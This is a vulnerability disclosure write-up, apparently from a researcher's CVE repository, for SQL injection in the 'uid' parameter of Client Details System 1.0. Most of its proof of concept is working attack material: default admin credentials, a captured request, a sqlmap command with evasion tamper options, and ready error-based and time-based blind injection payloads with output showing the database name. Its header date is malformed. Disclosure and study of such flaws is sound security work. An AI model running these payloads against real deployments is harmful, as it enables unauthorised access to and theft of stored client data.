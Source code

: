 # Client_Details_System-SQL_Injection_5
+ **Exploit Title:** Client_Details_System-SQL_Injection_5
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-

## References: 

## Description:
Client Details System 1.0 allows SQL Injection via parameter 'uid' in "/clientdetails/admin/update-clients.php?uid=3". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the Admin Panel: "http://localhost/clientdetails/admin/"
+ Fill User Id and Password with `admin`:`client123` and log in.
+ Manage Users: "http://localhost/clientdetails/admin/manage-users.php"
+ Then click Edit button for any user: "http://localhost/clientdetails/admin/update-clients.php?uid=3"
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
GET /clientdetails/admin/update-clients.php?uid=3 HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: PHPSESSID=p5mgq2eci66sik6s94eakcjub9
Referer: http://localhost/clientdetails/admin/clientview.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

```

+ Use sqlmap to exploit. In sqlmap, use 'uid' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p uid --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: uid (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: uid=3'+(SELECT 0x6c464a42 WHERE 4357=4357 AND (SELECT 4176 FROM(SELECT COUNT(*),CONCAT(0x7178626271,(SELECT (ELT(4176=4176,1))),0x7170626271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))+'

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uid=3'+(SELECT 0x6b5a6545 WHERE 9285=9285 AND (SELECT 7542 FROM (SELECT(SLEEP(5)))GfcH))+'
---
[18:14:00] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[18:14:01] [INFO] fetching current database
[18:14:01] [INFO] retrieved: 'loginsystem'
current database: 'loginsystem'
```

+ current database: `loginsystem`
![5](https://github.com/h4md153v63n/CVEs/assets/5091265/107593ab-0372-4e02-8ce8-727a17c95d5a)
